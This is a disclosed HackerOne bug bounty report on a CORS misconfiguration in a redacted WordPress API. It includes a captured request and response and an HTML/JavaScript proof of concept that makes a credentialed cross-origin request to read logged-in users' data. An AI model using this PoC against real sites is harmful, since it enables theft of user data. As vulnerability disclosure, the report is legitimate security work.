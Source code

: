 # CORS Misconfiguration on  █████

## Report Details
- **Report ID**: 2332728
- **URL**: https://hackerone.com/reports/2332728
- **State**: Closed
- **Severity**: low
- **Submitted**: 2024-01-24T13:17:19.948Z
- **Disclosed**: 2024-01-31T13:54:14.230Z

## Reporter
- **Username**: 2k_hacker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: publitas

## Vulnerability Information
Summary:
An cross-origin resource sharing (CORS) policy controls whether and how content running on other domains can perform two-way interaction with the domain that publishes the policy. The policy is fine-grained and can apply access controls per-request based on the URL and other features of the request. If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information. This bug could be used to steal users information or force the user to execute unwanted actions. As long that a legit and logged in user is lure to access a attacker controlled HTML page
Steps To Reproduce:
1. visit ███

2.Request:

GET ███wp-json███ HTTP███2
Host: ███████
Origin: ███
Cookie: ██████
User-Agent: Mozilla███5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko███████████ Firefox██████████121.0
Accept: *████*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Sec-Purpose: prefetch
Referer: ████████
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers



Response:

HTTP██████████2 200 OK
Date: ████████ ██████ GMT
Content-Type: application████json; charset=UTF-8
Cf-Ray: 84a84c179f6b17b4-MAA
Cf-Cache-Status: MISS
Access-Control-Allow-Origin: ████
Allow: GET
Cache-Control: public, max-age=0, s-maxage=2592000
Last-Modified: ██████████ ██████████ GMT
Link: <█████>; rel="█████"
Strict-Transport-Security: max-age=63072000
Vary: Accept-Encoding, Origin
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type, X-HTTP-Method-Override
Access-Control-Allow-Methods: OPTIONS, GET, POST, PUT, PATCH, DELETE
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
Cache-Tag: d0c98d67-2142-45ee-954b-1652d3db1a93,fa5143bd373309212ef342e7c36d3fda7a55c64c19ac2d96e87806793ef0932a
Content-Security-Policy: frame-ancestors ████
Ki-Cache-Tag: d0c98d67-2142-45ee-954b-1652d3db1a93,fa5143bd373309212ef342e7c36d3fda7a55c64c19ac2d96e87806793ef0932a
Ki-Cache-Type: Edge
Ki-Cf-Cache-Status: SAVING
Ki-Edge: v=20.2.6;mv=3.0.2
Ki-Origin: g1p
X-Content-Type-Options: nosniff
X-Edge-Location-Klb: 1
X-Frame-Options: SAMEORIGIN
X-Kinsta-Cache: HIT
X-Robots-Tag: noindex
X-Xss-Protection: 1; mode=block
Report-To: {"endpoints":[{"url":"████\████████report\██████████v3?s=uvZk8ldCAmNz0%2F9Xef5wFWaUlBaHropQljH0tc8ZmEqnRuk0mzHwH8vv8EwfDONYj1KFENko4G33KbzoNZ1sZ4tFcTACe4%2Bey7nv%2FwVpxWfSHRYCd3UK4NxREMnLTg1GXR0%3D"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0.01,"report_to":"cf-nel","max_age":604800}
Server: cloudflare
Alt-Svc: h3=":443"; ma=86400
 and some json codes...


Note:by adding the Like repose from the page in the following code developed it can be exploded

code:

<!DOCTYPE html>
<html>
    <head>
        <script>
            function cors() {
                var xhttp=new XMLHttpRequest();
                    xhttp.onreadystatechange= function() {
                        if (this.readyState == 4 && this.status ==200){
                            document.getElementById("emo").innerHTML=alert(this.responseText
                                );
                       }
                };
                xhttp.open('GET',"████",true);
                xhttp.withCredentials=true;
               xhttp.send();
            }
        <████script>
    <██████████head>
    <body>
        <center>
        <h2>[!]CORS PoC Exploit!!!<███h2>
        <div id="demo">
            <button type="button" onclick="cors()">Exploit<███████button> 
        <████div>
        <██████████center>
    <████body>
<███html>

I have the PoC attached which is the output for the above

## Impact

1.Attacker would treat many victims to visit attacker's website, if victim is logged in, then his personal information is recorded in attacker's server.
2.Also If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information.

## Attachments
No attachments
